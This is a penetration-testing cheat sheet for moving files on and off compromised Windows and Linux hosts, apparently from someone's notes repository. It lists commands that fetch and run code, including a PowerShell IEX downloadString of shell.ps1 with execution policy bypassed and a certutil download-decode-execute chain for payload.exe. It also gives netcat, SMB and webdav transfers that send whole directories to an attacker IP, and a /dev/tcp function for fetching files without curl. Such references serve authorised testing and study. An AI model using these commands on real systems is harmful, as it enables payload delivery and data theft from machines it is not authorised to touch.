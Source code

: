 # share files

## Windows

```bash
certutil.exe -urlcache [-split] -f <source> <destn>
powershell wget <source> -OutFile <dest>
powershell Invoke-WebRequest -Uri <source> -Outfile <dest>
powershell -c (New-Object System.Net.WebClient).downloadFile('SOURCE', 'DESTN')
powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')
certutil.exe -urlcache -split -f <source> payload.b64 & certutil.exe -decode payload.b64 payload.exe & payload.exe
bitsadmin /transfer job <source> <dest>
wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

# SMB Server
impacket-smbserver [-smb2support] drive .

# on windows to copy (download)
copy \\IP\drive\FILE
# upload 
copy FILE \\IP\drive\

# mount smb-share-drive on windows using powershell
PS> New-PSDrive -Name "winDrive" -PSProvider "FileSystem" -Root "\\IP\drive"
Navigating to "winDrive" shows us all files

# upload dir (with all in it)
robocopy dir \\IP\drive\ /E
[OR]
net use Z: \\IP\drive /u:USER PASS
copy file Z:\
```

## HTTP Server

Alternative: [sc0tfree/updog](https://github.com/sc0tfree/updog)

```bash
python3 -m http.server 80
python2 -m SimpleHttpSever 80
php -S IP:PORT
wget <IP>:<PORT>/<file> -O <file>
curl <IP>:<PORT>/<file> -o <file>
scp file kashz@IP:/PATH/FILE

# download all files
wget -r <IP>:<PORT>/<DIR>/

# using base64
base64 <executable> > out
base64 -d out > <executable>
```

## NC

```bash
# receiver
nc -l -p <PORT> > out.file
# sender
nc -w 3 <IP> <PORT> < in.file

# receiver
nc -l -p 1234 | uncompress -c | tar xvfp -
# sender
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## webdav

```bash
# pip install wsgidav cheroot
mkdir /tmp/kashz; wsgidav --host=IP --port=80 --root=/tmp/kashz

# windows
net use * http://IP/
```

## Curl function (linux only)

Use when system does not have `wget, curl.`NOTE: works for binary files too. Fails for `https://` with self signed
certificates.

```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
# usage
__curl http://IP/FILE > out
```
